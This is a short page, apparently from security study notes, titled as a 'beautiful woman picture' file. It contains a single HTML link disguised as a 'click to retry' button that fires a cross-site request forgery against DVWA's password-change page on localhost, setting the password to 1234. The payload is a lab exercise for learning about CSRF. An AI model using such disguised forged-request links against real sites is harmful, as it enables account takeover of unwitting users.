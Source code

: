+++
title = "美女图片1.html"
icon = "article"
toc = true
+++
``` html
<a href="http://127.0.0.1/DVWA/vulnerabilities/csrf/?password_new=1234&password_conf=1234&Change=Change#"><img src="">点击重试</a>
```